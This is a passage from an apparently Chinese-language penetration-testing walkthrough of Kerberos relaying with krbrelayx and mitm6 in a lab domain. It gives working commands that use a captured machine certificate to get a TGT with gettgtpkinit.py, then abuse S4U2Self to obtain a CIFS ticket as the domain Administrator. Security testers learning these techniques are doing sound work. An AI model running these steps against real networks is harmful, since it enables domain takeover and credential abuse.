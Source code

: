 ![](/assets/posts/2022-04-26-relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/image-20220426174232847.png)

（3）我们将该证书的内容保存在 win10-client1.txt 文件中，有了这个证书，我们可以使用 [PKINITtools](https://github.com/dirkjanm/PKINITtools) 或 [Rubeus](https://github.com/GhostPack/Rubeus) 工具，代表该机器账户执行 Kerberos 身份验证，并为其申请 TGT 票据：

```bash
python3 gettgtpkinit.py pentest.com/win10-client1\$ win10-client1.ccache -pfx-base64 $(cat win10-client1.txt)
```

![](/assets/posts/2022-04-26-relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/image-20220426195532151.png)

（4）至此我们已经获取了 TGT 票据，但是该票据为 WIN10-CLIENT1 机器账户的票据。由于机器账户不允许登录，我们无法通过机器账户对目标主机执行交互式操作。不过我们可以通过 Kerberos 的 S4U2Self 扩展协议，使用已获取的 TGT 为域管理员用户申请针对 `cifs/win10-client1.pentest.com@pentest.com` SPN 的服务票据，相关命令如下：

> 尽管需要在机器帐户上专门启用约束委派属性才能使 S4U2proxy 跨系统工作，但是任何具有 SPN 的主体都可以调用 S4U2self 去获取针对自身的高权限票据。

```bash
python3 gets4uticket.py kerberos+ccache://pentest.com\\win10-client1\$:win10-client1.ccache@dc01.pentest.com cifs/win10-client1.pentest.com@pentest.com Administrator@pentest.com Administrator.ccache -v
```
